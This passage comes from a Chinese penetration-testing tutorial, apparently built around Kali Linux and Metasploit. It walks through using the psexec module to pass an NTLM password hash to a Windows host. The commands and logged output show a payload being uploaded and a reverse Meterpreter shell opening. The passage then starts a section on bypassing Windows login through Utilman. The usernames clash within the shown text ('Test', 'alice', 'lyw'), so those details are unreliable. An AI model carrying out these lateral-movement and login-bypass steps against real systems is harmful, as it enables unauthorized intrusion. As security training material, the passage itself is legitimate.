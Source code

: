 （5）后台运行会话 2。执行命令如下所示：

```
meterpreter > background
[*] Backgrounding session 2… 
```

（6）使用 SMB psexec 模块，并设置需要的配置选项参数。执行命令如下所示：

```
msf exploit(bypassuac) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.6.114   #设置远程主机地址
RHOST => 192.168.6.114
msf exploit(psexec) > set SMBUser Test          #设置 SMB 用户
SMBUser => alice
msf exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:
22315d6ed1a7d5f8a7c98c40e9fa2dec                #设置 SMB 密码
SMBPass => aad3b435b51404eeaad3b435b51404ee:22315d6ed1a7d5f8a7c98c40e9fa2dec 
```

（7）启动攻击。执行命令如下所示：

```
msf exploit(psexec) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Connecting to the server…
[*] Authenticating to 192.168.6.114:445|WORKGROUP as user 'lyw'…
[*] Uploading payload…
[*] Created \XBotpcOY.exe…
[*] Deleting \XBotpcOY.exe…
[*] Sending stage (769536 bytes) to 192.168.6.114
[*] Meterpreter session 3 opened (192.168.6.103:4444 -> 192.168.6.114:49159) at 2014-07-22 17:32:13 +0800 
```

从输出的信息中，可以看到使用“Test”用户成功的打开了一个会话。

# 8.4 绕过 Utilman 登录

## 8.4 绕过 Utilman 登录

Utilman 是 Windows 辅助工具管理器。该程序是存放在 Windows 系统文件中最重要的文件，通常情况下是在安装系统过程中自动创建的，对于系统正常运行来说至关重要。在 Windows 下，使用 Windows+U 组合键可以调用 Utilman 进程。本节将介绍绕过 Utilman 程序登录系统，就可以运行其他操作。

（1）在 Windows 界面，启动 Kali Linux LiveCD，如图 8.7 所示。

